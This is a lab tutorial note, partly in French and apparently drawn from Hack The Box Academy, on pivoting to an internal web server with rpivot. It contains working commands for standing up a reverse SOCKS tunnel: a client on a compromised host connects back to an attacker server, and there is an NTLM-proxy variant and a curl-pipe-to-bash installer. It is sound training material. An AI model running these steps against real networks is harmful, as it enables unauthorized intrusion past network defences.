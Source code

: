 # Web Server Pivoting with Rpivot

***

{% hint style="warning" %}
Rpivot est un outil Python de proxy SOCKS inversé pour le tunneling SOCKS. Il permet de lier une machine dans un réseau interne à un serveur externe et d’exposer le port local du client côté serveur. Par exemple, si nous avons un serveur web sur notre réseau interne (172.16.5.135), Rpivot permet d’y accéder via ce proxy.
{% endhint %}

![](https://academy.hackthebox.com/storage/modules/158/77.png)

<mark style="color:green;">**Cloning rpivot**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/klsecservices/rpivot.git
```

<mark style="color:green;">**Installing Python2.7**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ sudo apt-get install python2.7
```

<mark style="color:green;">**Alternative Installation of Python2.7**</mark>

{% code fullWidth="true" %}
```shell-session
curl https://pyenv.run | bash
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(pyenv init -)"' >> ~/.bashrc
source ~/.bashrc
pyenv install 2.7
pyenv shell 2.7
```
{% endcode %}

<mark style="color:green;">**Running server.py from the Attack Host**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
{% endcode %}

<mark style="color:green;">**Transfering rpivot to the Target**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

<mark style="color:green;">**Running client.py from Pivot Target**</mark>

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.15.124 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

<mark style="color:green;">**Confirming Connection is Established**</mark>

```shell-session
New connection from host 10.129.202.64, source port 35226
```

<mark style="color:green;">**Browsing to the Target Webserver using Proxychains**</mark>

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

![](https://academy.hackthebox.com/storage/modules/158/rpivot_proxychain.png)

{% hint style="info" %}
(Ton PC) Firefox → ProxyChains → 127.0.0.1:9050\
↓\
(Ton PC) Rpivot server.py (écoute sur 9999)\
↓\
(Tunnel établi par client.py)\
↓\
(Pivot) Rpivot client.py → Forward vers 172.16.5.135:80\
↓\
(Webserver interne) Réponse → Pivot → Rpivot → ProxyChains → Firefox
{% endhint %}

{% hint style="info" %}
Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:
{% endhint %}

<mark style="color:green;">**Connecting to a Web Server using HTTP-Proxy & NTLM Auth**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
{% endcode %}
